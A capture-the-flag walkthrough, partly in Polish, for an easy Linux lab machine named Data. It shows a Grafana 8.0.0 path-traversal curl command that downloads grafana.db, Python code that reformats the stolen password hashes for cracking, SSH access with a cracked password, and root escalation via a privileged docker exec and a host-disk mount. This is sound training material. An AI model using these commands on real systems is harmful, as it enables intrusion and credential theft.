 # Data
Linux, Easy, created by **xct**

![data_slide](https://github.com/user-attachments/assets/8ed6d7ac-e48d-448f-99ad-60ba3d96f1c4)

```
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?
```

oho aż zbyt typowo wygląda początek xd

content discovery
```
datasources             [Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 36ms]
login                   [Status: 200, Size: 32882, Words: 2586, Lines: 300, Duration: 32ms]
metrics                 [Status: 200, Size: 42385, Words: 1642, Lines: 628, Duration: 37ms]
org                     [Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 31ms]
public                  [Status: 302, Size: 31, Words: 2, Lines: 3, Duration: 31ms]
robots.txt              [Status: 200, Size: 26, Words: 3, Lines: 3, Duration: 33ms]
signup                  [Status: 200, Size: 32851, Words: 2586, Lines: 300, Duration: 33ms]
verify                  [Status: 200, Size: 32851, Words: 2586, Lines: 300, Duration: 34ms]
```

![{4325949D-9397-49EC-8550-89A4CDE33CB3}](https://github.com/user-attachments/assets/a74abcf2-e070-4e3a-89a0-8e13fcc60485)

![{B6E94D1D-577E-422A-9EB3-C6C731810E5F}](https://github.com/user-attachments/assets/c9775184-93cc-485e-a16f-dc4b8711dd64)

hmmm. W ehave 8.0.0 but.. lt's try

I run this

![{2FA140E1-69B7-41BF-8B56-3A64C2BE25C6}](https://github.com/user-attachments/assets/ff9b11c9-fedb-4f85-87f2-d50f7806da89)

a lot works

![{5142DE3C-4FB4-44A7-B54C-B7BF9BECC566}](https://github.com/user-attachments/assets/0006ae92-b254-4a00-b8cd-414ec197582c)

```
curl http://10.10.96.228:3000/public/plugins/alertlist/../../../../../../../../../../var/lib/grafana/grafana.db --path-as-is --output grafana.db
```
![{5056081C-FA4D-4345-B832-B2BA3DFA623D}](https://github.com/user-attachments/assets/5ee69d90-0e30-4e63-8007-4187ee509f2b)

Musimy sobie hash przekonwertować
```
import binascii
import base64

hashed_password_1 = '7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8'
salt_1 = 'YObSoLj55S'
decoded_pass_1 = bytes.fromhex(hashed_password_1)
b64_enc_hash_1 = base64.b64encode(decoded_pass_1).decode('utf-8')

hashed_password_2 = 'dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8'
salt_2 = 'LCBhdtJWjl'
decoded_pass_2 = bytes.fromhex(hashed_password_2)
b64_enc_hash_2 = base64.b64encode(decoded_pass_2).decode('utf-8')

hashed_salt_1 = base64.b64encode(salt_1.encode('utf-8')).decode('utf-8')
hashed_salt_2 = base64.b64encode(salt_2.encode('utf-8')).decode('utf-8')

print('sha256:10000:' + f'{hashed_salt_1}:' + b64_enc_hash_1)
print('sha256:10000:' + f'{hashed_salt_2}:' + b64_enc_hash_2)
```

![{7B0B19F5-D3C8-4FFB-9D43-85CF07488DAD}](https://github.com/user-attachments/assets/0dc04ae6-5559-4117-a7a5-2cbfbcf04f07)

~60 sek cracking on RTX3070Ti and I got one password

It works for ssh connection

![{ED502438-D16D-47E4-98DA-11CA2858DEDD}](https://github.com/user-attachments/assets/b85ff1da-ac92-4dab-951b-61b10ec9e4be)

priv esc taki obvius

![{6CDADA2E-E7D6-4B2E-B75E-56C029B7FFF4}](https://github.com/user-attachments/assets/b444cfb9-8c1e-481c-b92e-cb464f4adc35)

```
sudo /snap/bin/docker exec -it --privileged --user root e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 /bin/bash
```
![{20F26597-8799-40FD-AC1F-E976BD7A0A2C}](https://github.com/user-attachments/assets/91f2554e-59e9-49e7-876b-764b51db51c8)

![{97352A05-9918-4B0F-8F78-020E9BB29B96}](https://github.com/user-attachments/assets/e0cc3f9a-6111-4c82-bae5-a0d1d8b6b21e)

```
mkdir -p /mnt/hola
mount /dev/xvda1 /mnt/hola
```

![{B755BFD1-2413-4F69-8163-44478C858369}](https://github.com/user-attachments/assets/770be480-1c85-4ffc-8568-25a6ed54f109)

